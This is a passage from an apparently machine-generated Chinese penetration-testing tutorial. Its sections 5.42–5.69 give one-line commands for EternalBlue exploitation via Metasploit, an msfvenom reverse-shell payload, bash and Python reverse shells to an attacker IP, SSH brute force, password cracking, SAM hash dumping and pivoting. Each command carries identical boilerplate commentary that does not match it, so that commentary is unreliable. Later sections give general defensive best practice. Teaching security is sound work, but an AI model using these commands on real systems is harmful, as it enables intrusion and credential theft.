# 查看漏洞利用代码详情
searchsploit -x 12345
```

讲解：这段代码演示了本节核心知识点。代码中的关键操作可以归纳为三步：准备（定义或初始化）、执行（核心逻辑）、收尾（释放资源或返回结果）。实际项目中，这三步往往被封装为函数或类，以提升复用性与可测试性。

关键点分析：

该示例共 2 行有效代码，结构以数据或配置为主。阅读时应关注：数据字段的含义、配置项的作用，以及它们与运行行为的对应关系。

进阶思考路径：先尝试修改参数观察行为变化，再把示例中的模式迁移到自己的项目中；每次修改都记录预期与实测差异，这是把示例转化为能力的最快方式。

### 5.42 示例：漏洞利用

该示例来自原文《漏洞利用》小节，用于演示Web安全与渗透测试相关操作。阅读时请先看代码结构，再看其后的讲解。

```bash
# 复制漏洞利用代码到当前目录
searchsploit -m 12345
```

讲解：这段代码演示了本节核心知识点。代码中的关键操作可以归纳为三步：准备（定义或初始化）、执行（核心逻辑）、收尾（释放资源或返回结果）。实际项目中，这三步往往被封装为函数或类，以提升复用性与可测试性。

关键点分析：

该示例共 2 行有效代码，结构以数据或配置为主。阅读时应关注：数据字段的含义、配置项的作用，以及它们与运行行为的对应关系。

进阶思考路径：先尝试修改参数观察行为变化，再把示例中的模式迁移到自己的项目中；每次修改都记录预期与实测差异，这是把示例转化为能力的最快方式。

### 5.43 示例：漏洞利用

该示例来自原文《漏洞利用》小节，用于演示Web安全与渗透测试相关操作。阅读时请先看代码结构，再看其后的讲解。

```bash
# 使用 Metasploit 利用漏洞
msfconsole -q -x "use exploit/windows/smb/ms17_010_eternalblue; set RHOSTS 192.168.1.10; run"
```

讲解：这段代码演示了本节核心知识点。代码中的关键操作可以归纳为三步：准备（定义或初始化）、执行（核心逻辑）、收尾（释放资源或返回结果）。实际项目中，这三步往往被封装为函数或类，以提升复用性与可测试性。

关键点分析：

该示例共 2 行有效代码，结构以数据或配置为主。阅读时应关注：数据字段的含义、配置项的作用，以及它们与运行行为的对应关系。

进阶思考路径：先尝试修改参数观察行为变化，再把示例中的模式迁移到自己的项目中；每次修改都记录预期与实测差异，这是把示例转化为能力的最快方式。

### 5.44 示例：漏洞利用

该示例来自原文《漏洞利用》小节，用于演示Web安全与渗透测试相关操作。阅读时请先看代码结构，再看其后的讲解。

```bash
# 生成反向连接 Payload
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.5 LPORT=4444 -f exe -o payload.exe
```

讲解：这段代码演示了本节核心知识点。代码中的关键操作可以归纳为三步：准备（定义或初始化）、执行（核心逻辑）、收尾（释放资源或返回结果）。实际项目中，这三步往往被封装为函数或类，以提升复用性与可测试性。

关键点分析：

该示例共 2 行有效代码，结构以数据或配置为主。阅读时应关注：数据字段的含义、配置项的作用，以及它们与运行行为的对应关系。

进阶思考路径：先尝试修改参数观察行为变化，再把示例中的模式迁移到自己的项目中；每次修改都记录预期与实测差异，这是把示例转化为能力的最快方式。

### 5.45 示例：密码破解

该示例来自原文《密码破解》小节，用于演示Web安全与渗透测试相关操作。阅读时请先看代码结构，再看其后的讲解。

```bash
# 使用 hashcat 破解 MD5 哈希(类型 0)
hashcat -m 0 hash.txt rockyou.txt
```

讲解：这段代码演示了本节核心知识点。代码中的关键操作可以归纳为三步：准备（定义或初始化）、执行（核心逻辑）、收尾（释放资源或返回结果）。实际项目中，这三步往往被封装为函数或类，以提升复用性与可测试性。

关键点分析：

该示例共 2 行有效代码，结构以数据或配置为主。阅读时应关注：数据字段的含义、配置项的作用，以及它们与运行行为的对应关系。

进阶思考路径：先尝试修改参数观察行为变化，再把示例中的模式迁移到自己的项目中；每次修改都记录预期与实测差异，这是把示例转化为能力的最快方式。

### 5.46 示例：密码破解

该示例来自原文《密码破解》小节，用于演示Web安全与渗透测试相关操作。阅读时请先看代码结构，再看其后的讲解。

```bash
# 使用 John the Ripper 破解密码
john --wordlist=rockyou.txt hashes.txt
```

讲解：这段代码演示了本节核心知识点。代码中的关键操作可以归纳为三步：准备（定义或初始化）、执行（核心逻辑）、收尾（释放资源或返回结果）。实际项目中，这三步往往被封装为函数或类，以提升复用性与可测试性。

关键点分析：

该示例共 2 行有效代码，结构以数据或配置为主。阅读时应关注：数据字段的含义、配置项的作用，以及它们与运行行为的对应关系。

进阶思考路径：先尝试修改参数观察行为变化，再把示例中的模式迁移到自己的项目中；每次修改都记录预期与实测差异，这是把示例转化为能力的最快方式。

### 5.47 示例：密码破解

该示例来自原文《密码破解》小节，用于演示Web安全与渗透测试相关操作。阅读时请先看代码结构，再看其后的讲解。

```bash
# 破解 ZIP 文件密码
zip2john protected.zip > zip.hash
john --wordlist=rockyou.txt zip.hash
```

讲解：这段代码演示了本节核心知识点。代码中的关键操作可以归纳为三步：准备（定义或初始化）、执行（核心逻辑）、收尾（释放资源或返回结果）。实际项目中，这三步往往被封装为函数或类，以提升复用性与可测试性。

关键点分析：

该示例共 3 行有效代码，结构以数据或配置为主。阅读时应关注：数据字段的含义、配置项的作用，以及它们与运行行为的对应关系。

进阶思考路径：先尝试修改参数观察行为变化，再把示例中的模式迁移到自己的项目中；每次修改都记录预期与实测差异，这是把示例转化为能力的最快方式。

### 5.48 示例：密码破解

该示例来自原文《密码破解》小节，用于演示Web安全与渗透测试相关操作。阅读时请先看代码结构，再看其后的讲解。

```bash
# 在线查询哈希明文
curl "https://hashtoolkit.com/reverse-hash?hash=098f6bcd4621d373cade4e832627b4f6"
```

讲解：这段代码演示了本节核心知识点。代码中的关键操作可以归纳为三步：准备（定义或初始化）、执行（核心逻辑）、收尾（释放资源或返回结果）。实际项目中，这三步往往被封装为函数或类，以提升复用性与可测试性。

关键点分析：

该示例共 2 行有效代码，结构以数据或配置为主。阅读时应关注：数据字段的含义、配置项的作用，以及它们与运行行为的对应关系。

进阶思考路径：先尝试修改参数观察行为变化，再把示例中的模式迁移到自己的项目中；每次修改都记录预期与实测差异，这是把示例转化为能力的最快方式。

### 5.49 示例：密码破解

该示例来自原文《密码破解》小节，用于演示Web安全与渗透测试相关操作。阅读时请先看代码结构，再看其后的讲解。

```bash
# 使用 hydra 爆破 SSH
hydra -l root -P passwords.txt ssh://192.168.1.10
```

讲解：这段代码演示了本节核心知识点。代码中的关键操作可以归纳为三步：准备（定义或初始化）、执行（核心逻辑）、收尾（释放资源或返回结果）。实际项目中，这三步往往被封装为函数或类，以提升复用性与可测试性。

关键点分析：

该示例共 2 行有效代码，结构以数据或配置为主。阅读时应关注：数据字段的含义、配置项的作用，以及它们与运行行为的对应关系。

进阶思考路径：先尝试修改参数观察行为变化，再把示例中的模式迁移到自己的项目中；每次修改都记录预期与实测差异，这是把示例转化为能力的最快方式。

### 5.50 示例：后渗透操作

该示例来自原文《后渗透操作》小节，用于演示Web安全与渗透测试相关操作。阅读时请先看代码结构，再看其后的讲解。

```bash
# 通过 bash 反弹 shell 到攻击机
bash -i >& /dev/tcp/192.168.1.5/4444 0>&1
```

讲解：这段代码演示了本节核心知识点。代码中的关键操作可以归纳为三步：准备（定义或初始化）、执行（核心逻辑）、收尾（释放资源或返回结果）。实际项目中，这三步往往被封装为函数或类，以提升复用性与可测试性。

关键点分析：

该示例共 2 行有效代码，结构以数据或配置为主。阅读时应关注：数据字段的含义、配置项的作用，以及它们与运行行为的对应关系。

进阶思考路径：先尝试修改参数观察行为变化，再把示例中的模式迁移到自己的项目中；每次修改都记录预期与实测差异，这是把示例转化为能力的最快方式。

### 5.51 示例：后渗透操作

该示例来自原文《后渗透操作》小节，用于演示Web安全与渗透测试相关操作。阅读时请先看代码结构，再看其后的讲解。

```bash
# Python 反弹 shell
python3 -c 'import socket,subprocess,os;s=socket.socket();s.connect(("192.168.1.5",4444));[os.dup2(s.fileno(),f) for f in (0,1,2)];subprocess.call(["/bin/sh"])'
```

讲解：这段代码演示了本节核心知识点。代码中的关键操作可以归纳为三步：准备（定义或初始化）、执行（核心逻辑）、收尾（释放资源或返回结果）。实际项目中，这三步往往被封装为函数或类，以提升复用性与可测试性。

关键点分析：

该示例共 2 行有效代码，包含 2 类关键结构（import、for）。其中：

- 入口与初始化部分负责建立上下文，对应实际项目中的启动或装配逻辑；
- 核心逻辑部分体现本文主题的主要操作，是阅读时最需要对照讲解理解的部分；
- 输出或返回部分把结果交给调用方，注意其类型与边界条件。

进阶思考路径：先尝试修改参数观察行为变化，再把示例中的模式迁移到自己的项目中；每次修改都记录预期与实测差异，这是把示例转化为能力的最快方式。

### 5.52 示例：后渗透操作

该示例来自原文《后渗透操作》小节，用于演示Web安全与渗透测试相关操作。阅读时请先看代码结构，再看其后的讲解。

```bash
# 升级为交互式 shell
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

讲解：这段代码演示了本节核心知识点。代码中的关键操作可以归纳为三步：准备（定义或初始化）、执行（核心逻辑）、收尾（释放资源或返回结果）。实际项目中，这三步往往被封装为函数或类，以提升复用性与可测试性。

关键点分析：

该示例共 2 行有效代码，包含 1 类关键结构（import）。其中：

- 入口与初始化部分负责建立上下文，对应实际项目中的启动或装配逻辑；
- 核心逻辑部分体现本文主题的主要操作，是阅读时最需要对照讲解理解的部分；
- 输出或返回部分把结果交给调用方，注意其类型与边界条件。

进阶思考路径：先尝试修改参数观察行为变化，再把示例中的模式迁移到自己的项目中；每次修改都记录预期与实测差异，这是把示例转化为能力的最快方式。

### 5.53 示例：后渗透操作

该示例来自原文《后渗透操作》小节，用于演示Web安全与渗透测试相关操作。阅读时请先看代码结构，再看其后的讲解。

```bash
# SSH 本地端口转发
ssh -L 8080:192.168.2.10:80 user@192.168.1.10
```

讲解：这段代码演示了本节核心知识点。代码中的关键操作可以归纳为三步：准备（定义或初始化）、执行（核心逻辑）、收尾（释放资源或返回结果）。实际项目中，这三步往往被封装为函数或类，以提升复用性与可测试性。

关键点分析：

该示例共 2 行有效代码，结构以数据或配置为主。阅读时应关注：数据字段的含义、配置项的作用，以及它们与运行行为的对应关系。

进阶思考路径：先尝试修改参数观察行为变化，再把示例中的模式迁移到自己的项目中；每次修改都记录预期与实测差异，这是把示例转化为能力的最快方式。

### 5.54 示例：后渗透操作

该示例来自原文《后渗透操作》小节，用于演示Web安全与渗透测试相关操作。阅读时请先看代码结构，再看其后的讲解。

```bash
# SSH 动态端口转发建立 SOCKS 代理
ssh -D 1080 user@192.168.1.10
```

讲解：这段代码演示了本节核心知识点。代码中的关键操作可以归纳为三步：准备（定义或初始化）、执行（核心逻辑）、收尾（释放资源或返回结果）。实际项目中，这三步往往被封装为函数或类，以提升复用性与可测试性。

关键点分析：

该示例共 2 行有效代码，结构以数据或配置为主。阅读时应关注：数据字段的含义、配置项的作用，以及它们与运行行为的对应关系。

进阶思考路径：先尝试修改参数观察行为变化，再把示例中的模式迁移到自己的项目中；每次修改都记录预期与实测差异，这是把示例转化为能力的最快方式。

### 5.55 示例：权限提升

该示例来自原文《权限提升》小节，用于演示Web安全与渗透测试相关操作。阅读时请先看代码结构，再看其后的讲解。

```bash
# 查找 SUID 权限文件用于提权
find / -perm -4000 -type f 2>/dev/null
```

讲解：这段代码演示了本节核心知识点。代码中的关键操作可以归纳为三步：准备（定义或初始化）、执行（核心逻辑）、收尾（释放资源或返回结果）。实际项目中，这三步往往被封装为函数或类，以提升复用性与可测试性。

关键点分析：

该示例共 2 行有效代码，结构以数据或配置为主。阅读时应关注：数据字段的含义、配置项的作用，以及它们与运行行为的对应关系。

进阶思考路径：先尝试修改参数观察行为变化，再把示例中的模式迁移到自己的项目中；每次修改都记录预期与实测差异，这是把示例转化为能力的最快方式。

### 5.56 示例：权限提升

该示例来自原文《权限提升》小节，用于演示Web安全与渗透测试相关操作。阅读时请先看代码结构，再看其后的讲解。

```bash
# 查看当前用户 sudo 权限
sudo -l
```

讲解：这段代码演示了本节核心知识点。代码中的关键操作可以归纳为三步：准备（定义或初始化）、执行（核心逻辑）、收尾（释放资源或返回结果）。实际项目中，这三步往往被封装为函数或类，以提升复用性与可测试性。

关键点分析：

该示例共 2 行有效代码，结构以数据或配置为主。阅读时应关注：数据字段的含义、配置项的作用，以及它们与运行行为的对应关系。

进阶思考路径：先尝试修改参数观察行为变化，再把示例中的模式迁移到自己的项目中；每次修改都记录预期与实测差异，这是把示例转化为能力的最快方式。

### 5.57 示例：权限提升

该示例来自原文《权限提升》小节，用于演示Web安全与渗透测试相关操作。阅读时请先看代码结构，再看其后的讲解。

```bash
# 运行 LinPEAS 自动枚举提权路径
./linpeas.sh | grep -i "suid\|sudo\|writable"
```

讲解：这段代码演示了本节核心知识点。代码中的关键操作可以归纳为三步：准备（定义或初始化）、执行（核心逻辑）、收尾（释放资源或返回结果）。实际项目中，这三步往往被封装为函数或类，以提升复用性与可测试性。

关键点分析：

该示例共 2 行有效代码，结构以数据或配置为主。阅读时应关注：数据字段的含义、配置项的作用，以及它们与运行行为的对应关系。

进阶思考路径：先尝试修改参数观察行为变化，再把示例中的模式迁移到自己的项目中；每次修改都记录预期与实测差异，这是把示例转化为能力的最快方式。

### 5.58 示例：权限提升

该示例来自原文《权限提升》小节，用于演示Web安全与渗透测试相关操作。阅读时请先看代码结构，再看其后的讲解。

```bash
# 查看内核版本查找内核漏洞
uname -r
```

讲解：这段代码演示了本节核心知识点。代码中的关键操作可以归纳为三步：准备（定义或初始化）、执行（核心逻辑）、收尾（释放资源或返回结果）。实际项目中，这三步往往被封装为函数或类，以提升复用性与可测试性。

关键点分析：

该示例共 2 行有效代码，结构以数据或配置为主。阅读时应关注：数据字段的含义、配置项的作用，以及它们与运行行为的对应关系。

进阶思考路径：先尝试修改参数观察行为变化，再把示例中的模式迁移到自己的项目中；每次修改都记录预期与实测差异，这是把示例转化为能力的最快方式。

### 5.59 示例：权限提升

该示例来自原文《权限提升》小节，用于演示Web安全与渗透测试相关操作。阅读时请先看代码结构，再看其后的讲解。

```bash
# 查看系统计划任务寻找提权点
cat /etc/crontab
```

讲解：这段代码演示了本节核心知识点。代码中的关键操作可以归纳为三步：准备（定义或初始化）、执行（核心逻辑）、收尾（释放资源或返回结果）。实际项目中，这三步往往被封装为函数或类，以提升复用性与可测试性。

关键点分析：

该示例共 2 行有效代码，结构以数据或配置为主。阅读时应关注：数据字段的含义、配置项的作用，以及它们与运行行为的对应关系。

进阶思考路径：先尝试修改参数观察行为变化，再把示例中的模式迁移到自己的项目中；每次修改都记录预期与实测差异，这是把示例转化为能力的最快方式。

### 5.60 示例：内网渗透

该示例来自原文《内网渗透》小节，用于演示Web安全与渗透测试相关操作。阅读时请先看代码结构，再看其后的讲解。

```bash
# Ping 扫描探测存活主机
nmap -sn 192.168.1.0/24
```

讲解：这段代码演示了本节核心知识点。代码中的关键操作可以归纳为三步：准备（定义或初始化）、执行（核心逻辑）、收尾（释放资源或返回结果）。实际项目中，这三步往往被封装为函数或类，以提升复用性与可测试性。

关键点分析：

该示例共 2 行有效代码，结构以数据或配置为主。阅读时应关注：数据字段的含义、配置项的作用，以及它们与运行行为的对应关系。

进阶思考路径：先尝试修改参数观察行为变化，再把示例中的模式迁移到自己的项目中；每次修改都记录预期与实测差异，这是把示例转化为能力的最快方式。

### 5.61 示例：内网渗透

该示例来自原文《内网渗透》小节，用于演示Web安全与渗透测试相关操作。阅读时请先看代码结构，再看其后的讲解。

```bash
# 通过 SOCKS 代理执行命令
proxychains nmap -sT -Pn 192.168.2.0/24
```

讲解：这段代码演示了本节核心知识点。代码中的关键操作可以归纳为三步：准备（定义或初始化）、执行（核心逻辑）、收尾（释放资源或返回结果）。实际项目中，这三步往往被封装为函数或类，以提升复用性与可测试性。

关键点分析：

该示例共 2 行有效代码，结构以数据或配置为主。阅读时应关注：数据字段的含义、配置项的作用，以及它们与运行行为的对应关系。

进阶思考路径：先尝试修改参数观察行为变化，再把示例中的模式迁移到自己的项目中；每次修改都记录预期与实测差异，这是把示例转化为能力的最快方式。

### 5.62 示例：内网渗透

该示例来自原文《内网渗透》小节，用于演示Web安全与渗透测试相关操作。阅读时请先看代码结构，再看其后的讲解。

```bash
# 使用 SSH 建立后台 SOCKS 代理
ssh -D 1080 user@192.168.1.10 -fN
```

讲解：这段代码演示了本节核心知识点。代码中的关键操作可以归纳为三步：准备（定义或初始化）、执行（核心逻辑）、收尾（释放资源或返回结果）。实际项目中，这三步往往被封装为函数或类，以提升复用性与可测试性。

关键点分析：

该示例共 2 行有效代码，结构以数据或配置为主。阅读时应关注：数据字段的含义、配置项的作用，以及它们与运行行为的对应关系。

进阶思考路径：先尝试修改参数观察行为变化，再把示例中的模式迁移到自己的项目中；每次修改都记录预期与实测差异，这是把示例转化为能力的最快方式。

### 5.63 示例：内网渗透

该示例来自原文《内网渗透》小节，用于演示Web安全与渗透测试相关操作。阅读时请先看代码结构，再看其后的讲解。

```bash
# 通过代理扫描内网常用端口
proxychains nmap -sT -Pn -n --top-ports 100 192.168.2.0/24
```

讲解：这段代码演示了本节核心知识点。代码中的关键操作可以归纳为三步：准备（定义或初始化）、执行（核心逻辑）、收尾（释放资源或返回结果）。实际项目中，这三步往往被封装为函数或类，以提升复用性与可测试性。

关键点分析：

该示例共 2 行有效代码，结构以数据或配置为主。阅读时应关注：数据字段的含义、配置项的作用，以及它们与运行行为的对应关系。

进阶思考路径：先尝试修改参数观察行为变化，再把示例中的模式迁移到自己的项目中；每次修改都记录预期与实测差异，这是把示例转化为能力的最快方式。

### 5.64 示例：内网渗透

该示例来自原文《内网渗透》小节，用于演示Web安全与渗透测试相关操作。阅读时请先看代码结构，再看其后的讲解。

```bash
# 使用 impacket 导出 SAM 哈希
secretsdump.py -sam SAM -system SYSTEM LOCAL
```

讲解：这段代码演示了本节核心知识点。代码中的关键操作可以归纳为三步：准备（定义或初始化）、执行（核心逻辑）、收尾（释放资源或返回结果）。实际项目中，这三步往往被封装为函数或类，以提升复用性与可测试性。

关键点分析：

该示例共 2 行有效代码，结构以数据或配置为主。阅读时应关注：数据字段的含义、配置项的作用，以及它们与运行行为的对应关系。

进阶思考路径：先尝试修改参数观察行为变化，再把示例中的模式迁移到自己的项目中；每次修改都记录预期与实测差异，这是把示例转化为能力的最快方式。

### 5.65 示例：报告生成

该示例来自原文《报告生成》小节，用于演示Web安全与渗透测试相关操作。阅读时请先看代码结构，再看其后的讲解。

```bash
# 输出 XML 格式扫描报告
nmap -sV 192.168.1.10 -oX scan_report.xml
```

讲解：这段代码演示了本节核心知识点。代码中的关键操作可以归纳为三步：准备（定义或初始化）、执行（核心逻辑）、收尾（释放资源或返回结果）。实际项目中，这三步往往被封装为函数或类，以提升复用性与可测试性。

关键点分析：

该示例共 2 行有效代码，结构以数据或配置为主。阅读时应关注：数据字段的含义、配置项的作用，以及它们与运行行为的对应关系。

进阶思考路径：先尝试修改参数观察行为变化，再把示例中的模式迁移到自己的项目中；每次修改都记录预期与实测差异，这是把示例转化为能力的最快方式。

### 5.66 示例：报告生成

该示例来自原文《报告生成》小节，用于演示Web安全与渗透测试相关操作。阅读时请先看代码结构，再看其后的讲解。

```bash
# 将 nmap XML 报告转为 HTML
xsltproc scan_report.xml -o report.html
```

讲解：这段代码演示了本节核心知识点。代码中的关键操作可以归纳为三步：准备（定义或初始化）、执行（核心逻辑）、收尾（释放资源或返回结果）。实际项目中，这三步往往被封装为函数或类，以提升复用性与可测试性。

关键点分析：

该示例共 2 行有效代码，结构以数据或配置为主。阅读时应关注：数据字段的含义、配置项的作用，以及它们与运行行为的对应关系。

进阶思考路径：先尝试修改参数观察行为变化，再把示例中的模式迁移到自己的项目中；每次修改都记录预期与实测差异，这是把示例转化为能力的最快方式。

### 5.67 示例：报告生成

该示例来自原文《报告生成》小节，用于演示Web安全与渗透测试相关操作。阅读时请先看代码结构，再看其后的讲解。

```bash
# 解析多个工具的扫描结果整合报告
python3 -c "
import xml.etree.ElementTree as ET
tree = ET.parse('scan_report.xml')
for host in tree.findall('host'):
    print(host.find('address').get('addr'))
"
```

讲解：这段代码演示了本节核心知识点。代码中的关键操作可以归纳为三步：准备（定义或初始化）、执行（核心逻辑）、收尾（释放资源或返回结果）。实际项目中，这三步往往被封装为函数或类，以提升复用性与可测试性。

关键点分析：

该示例共 7 行有效代码，包含 2 类关键结构（import、for）。其中：

- 入口与初始化部分负责建立上下文，对应实际项目中的启动或装配逻辑；
- 核心逻辑部分体现本文主题的主要操作，是阅读时最需要对照讲解理解的部分；
- 输出或返回部分把结果交给调用方，注意其类型与边界条件。

进阶思考路径：先尝试修改参数观察行为变化，再把示例中的模式迁移到自己的项目中；每次修改都记录预期与实测差异，这是把示例转化为能力的最快方式。

### 5.68 示例：报告生成

该示例来自原文《报告生成》小节，用于演示Web安全与渗透测试相关操作。阅读时请先看代码结构，再看其后的讲解。

```bash
# 使用 pandoc 生成 PDF 报告
pandoc report.md -o pentest_report.pdf --pdf-engine=xelatex
```

讲解：这段代码演示了本节核心知识点。代码中的关键操作可以归纳为三步：准备（定义或初始化）、执行（核心逻辑）、收尾（释放资源或返回结果）。实际项目中，这三步往往被封装为函数或类，以提升复用性与可测试性。

关键点分析：

该示例共 2 行有效代码，结构以数据或配置为主。阅读时应关注：数据字段的含义、配置项的作用，以及它们与运行行为的对应关系。

进阶思考路径：先尝试修改参数观察行为变化，再把示例中的模式迁移到自己的项目中；每次修改都记录预期与实测差异，这是把示例转化为能力的最快方式。

### 5.69 示例：报告生成

该示例来自原文《报告生成》小节，用于演示Web安全与渗透测试相关操作。阅读时请先看代码结构，再看其后的讲解。

```bash
# 提取所有漏洞编号
grep -E "CVE-[0-9]+-[0-9]+|OSVDB" scan_report.txt > vulnerabilities.txt
```

讲解：这段代码演示了本节核心知识点。代码中的关键操作可以归纳为三步：准备（定义或初始化）、执行（核心逻辑）、收尾（释放资源或返回结果）。实际项目中，这三步往往被封装为函数或类，以提升复用性与可测试性。

关键点分析：

该示例共 2 行有效代码，结构以数据或配置为主。阅读时应关注：数据字段的含义、配置项的作用，以及它们与运行行为的对应关系。

进阶思考路径：先尝试修改参数观察行为变化，再把示例中的模式迁移到自己的项目中；每次修改都记录预期与实测差异，这是把示例转化为能力的最快方式。


综合以上示例，可以总结出本主题的代码实践要点：第一，先定义清晰的输入输出契约；第二，核心逻辑保持单一职责；第三，错误处理与边界条件不可省略；第四，命名与注释表达意图而非复述代码。

## 6. 对比分析

对比是理解《Web安全与渗透测试》定位的最快路径。下面从多个维度与相邻方案进行对比。

白盒与黑盒：白盒审代码，黑盒测外部；红蓝对抗验证整体。
等保 2.0 与 ISO 27001：合规框架驱动管理安全。
传统边界与零信任：零信任默认不信任任何请求，持续验证。

对比的目的不是分出绝对优劣，而是建立选择依据：不同约束条件下，最优解不同。读者应把每个对比维度转化为决策检查清单。

## 7. 常见陷阱与最佳实践

本节整理该主题的高频错误与推荐做法。每个陷阱先描述现象，再解释原因，最后给出最佳实践。

### 7.1 弱口令

默认口令与弱密码是最大入口。强制策略 + MFA。

深入讲解：该问题之所以被归类为“常见陷阱”，是因为它在初学者的代码中反复出现，而且往往不在第一时间暴露——错误通常隐藏在特定数据或特定时序下。

从成因上看，弱口令 一般源于对 网络安全 某个机制的理解偏差：要么误用了默认行为，要么忽略了边界条件，要么把其他语言的思维惯性带了过来。

从影响上看，弱口令 轻则产生错误结果，重则导致资源泄漏、数据损坏或安全事故；这也是为什么工程评审中会把它列为检查项。

从修复策略上看，处理弱口令的正确顺序是：先复现（构造最小用例），再定位（确认机制层面的根因），最后修复并补充回归测试。跳过复现直接改代码，往往治标不治本。

### 7.2 SQL 注入

拼接 SQL 直接执行。参数化查询 + 最小权限。

深入讲解：该问题之所以被归类为“常见陷阱”，是因为它在初学者的代码中反复出现，而且往往不在第一时间暴露——错误通常隐藏在特定数据或特定时序下。

从成因上看，SQL 注入 一般源于对 网络安全 某个机制的理解偏差：要么误用了默认行为，要么忽略了边界条件，要么把其他语言的思维惯性带了过来。

从影响上看，SQL 注入 轻则产生错误结果，重则导致资源泄漏、数据损坏或安全事故；这也是为什么工程评审中会把它列为检查项。

从修复策略上看，处理SQL 注入的正确顺序是：先复现（构造最小用例），再定位（确认机制层面的根因），最后修复并补充回归测试。跳过复现直接改代码，往往治标不治本。

### 7.3 XSS 未过滤

反射/存储型 XSS 窃取会话。输出编码 + CSP。

深入讲解：该问题之所以被归类为“常见陷阱”，是因为它在初学者的代码中反复出现，而且往往不在第一时间暴露——错误通常隐藏在特定数据或特定时序下。

从成因上看，XSS 未过滤 一般源于对 网络安全 某个机制的理解偏差：要么误用了默认行为，要么忽略了边界条件，要么把其他语言的思维惯性带了过来。

从影响上看，XSS 未过滤 轻则产生错误结果，重则导致资源泄漏、数据损坏或安全事故；这也是为什么工程评审中会把它列为检查项。

从修复策略上看，处理XSS 未过滤的正确顺序是：先复现（构造最小用例），再定位（确认机制层面的根因），最后修复并补充回归测试。跳过复现直接改代码，往往治标不治本。

### 7.4 敏感信息泄露

日志与前端暴露密钥。密钥管理 + 脱敏。

深入讲解：该问题之所以被归类为“常见陷阱”，是因为它在初学者的代码中反复出现，而且往往不在第一时间暴露——错误通常隐藏在特定数据或特定时序下。

从成因上看，敏感信息泄露 一般源于对 网络安全 某个机制的理解偏差：要么误用了默认行为，要么忽略了边界条件，要么把其他语言的思维惯性带了过来。

从影响上看，敏感信息泄露 轻则产生错误结果，重则导致资源泄漏、数据损坏或安全事故；这也是为什么工程评审中会把它列为检查项。

从修复策略上看，处理敏感信息泄露的正确顺序是：先复现（构造最小用例），再定位（确认机制层面的根因），最后修复并补充回归测试。跳过复现直接改代码，往往治标不治本。

### 7.5 依赖漏洞

第三方库已知漏洞。SCA 扫描 + 更新。

深入讲解：该问题之所以被归类为“常见陷阱”，是因为它在初学者的代码中反复出现，而且往往不在第一时间暴露——错误通常隐藏在特定数据或特定时序下。

从成因上看，依赖漏洞 一般源于对 网络安全 某个机制的理解偏差：要么误用了默认行为，要么忽略了边界条件，要么把其他语言的思维惯性带了过来。

从影响上看，依赖漏洞 轻则产生错误结果，重则导致资源泄漏、数据损坏或安全事故；这也是为什么工程评审中会把它列为检查项。

从修复策略上看，处理依赖漏洞的正确顺序是：先复现（构造最小用例），再定位（确认机制层面的根因），最后修复并补充回归测试。跳过复现直接改代码，往往治标不治本。

### 7.6 权限过度

账号权限超出职责。最小权限 + 定期审计。

深入讲解：该问题之所以被归类为“常见陷阱”，是因为它在初学者的代码中反复出现，而且往往不在第一时间暴露——错误通常隐藏在特定数据或特定时序下。

从成因上看，权限过度 一般源于对 网络安全 某个机制的理解偏差：要么误用了默认行为，要么忽略了边界条件，要么把其他语言的思维惯性带了过来。

从影响上看，权限过度 轻则产生错误结果，重则导致资源泄漏、数据损坏或安全事故；这也是为什么工程评审中会把它列为检查项。

从修复策略上看，处理权限过度的正确顺序是：先复现（构造最小用例），再定位（确认机制层面的根因），最后修复并补充回归测试。跳过复现直接改代码，往往治标不治本。

### 7.7 备份缺失

勒索软件无法恢复。离线备份 + 恢复演练。

深入讲解：该问题之所以被归类为“常见陷阱”，是因为它在初学者的代码中反复出现，而且往往不在第一时间暴露——错误通常隐藏在特定数据或特定时序下。

从成因上看，备份缺失 一般源于对 网络安全 某个机制的理解偏差：要么误用了默认行为，要么忽略了边界条件，要么把其他语言的思维惯性带了过来。

从影响上看，备份缺失 轻则产生错误结果，重则导致资源泄漏、数据损坏或安全事故；这也是为什么工程评审中会把它列为检查项。

从修复策略上看，处理备份缺失的正确顺序是：先复现（构造最小用例），再定位（确认机制层面的根因），最后修复并补充回归测试。跳过复现直接改代码，往往治标不治本。

### 7.8 安全意识薄弱

钓鱼与社会工程。培训 + 模拟演练。

深入讲解：该问题之所以被归类为“常见陷阱”，是因为它在初学者的代码中反复出现，而且往往不在第一时间暴露——错误通常隐藏在特定数据或特定时序下。

从成因上看，安全意识薄弱 一般源于对 网络安全 某个机制的理解偏差：要么误用了默认行为，要么忽略了边界条件，要么把其他语言的思维惯性带了过来。

从影响上看，安全意识薄弱 轻则产生错误结果，重则导致资源泄漏、数据损坏或安全事故；这也是为什么工程评审中会把它列为检查项。

从修复策略上看，处理安全意识薄弱的正确顺序是：先复现（构造最小用例），再定位（确认机制层面的根因），最后修复并补充回归测试。跳过复现直接改代码，往往治标不治本。

### 7.0 最佳实践总览

1. 纵深防御：网络、主机、应用、数据多层防线。
2. 最小权限与默认拒绝。
3. 安全左移：威胁建模与扫描进 CI。
4. 事件响应预案：检测、遏制、根除、恢复、复盘。

把这些最佳实践固化为团队规范与代码评审检查项，是避免同类问题反复出现的关键。

## 8. 工程实践

本节把《Web安全与渗透测试》放入真实工程场景，给出可复用的模式与组织方法。

开发安全：依赖扫描、SAST（静态）、DAST（动态）、密钥扫描。
运行时：WAF、IDS/IPS、EDR、日志审计与 SIEM。
应急响应：SOP 文档、证据保全、复盘报告。

### 8.1 工程实践的原则拆解

以上工程实践可以归纳为四条原则。第一，配置与代码分离：网络安全 项目中环境差异应通过配置注入，而不是散落在代码分支中；这保证同一份代码可以在开发、测试、生产环境一致运行。

第二，接口稳定优先：对外接口（函数签名、协议、数据格式）一旦被消费方依赖，变更成本极高；设计时应预留扩展点并保持向后兼容。

第三，可观测性内置：日志、指标与追踪应该在功能开发时同步设计，而不是故障发生后补救；没有观测手段的模块等于黑盒。

第四，变更可回滚：任何发布都应有对应的回滚方案；数据库迁移、配置变更与代码发布一样需要版本管理与逆向路径。

### 8.2 实践落地的检查清单

- [ ] 开发安全：对照本节描述，检查当前项目是否已经落实；未落实的项列入技术债并排期处理。
- [ ] 运行时：对照本节描述，检查当前项目是否已经落实；未落实的项列入技术债并排期处理。
- [ ] 应急响应：对照本节描述，检查当前项目是否已经落实；未落实的项列入技术债并排期处理。

工程实践的共性原则：配置与代码分离、接口稳定优先、可观测性内置、变更可回滚。这些原则适用于本主题的所有实现。

## 9. 案例研究

本节通过一个完整案例把《Web安全与渗透测试》的知识串起来。案例按“需求分析、方案设计、实现、验证”四步展开。

